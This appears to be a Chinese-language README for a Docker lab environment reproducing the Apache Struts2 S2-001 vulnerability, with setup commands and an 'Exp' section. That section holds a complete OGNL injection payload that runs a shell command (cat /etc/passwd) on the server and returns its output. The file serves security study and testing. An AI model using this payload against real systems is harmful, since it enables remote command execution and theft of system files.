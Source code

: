 ## Struts2 S2-001 漏洞环境

### 漏洞信息

 * [S2-001 公告](http://struts.apache.org/docs/s2-001.html)
 
参考 [http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html)

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:s_struts2_s2-001
 ```

2. 启动环境

 ```
$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-001
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### Exp

命令执行(命令加参数：new java.lang.String[]{"cat","/etc/passwd"})

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat","/etc/passwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

![](S2-001-1.png)

![](S2-001-2.png)

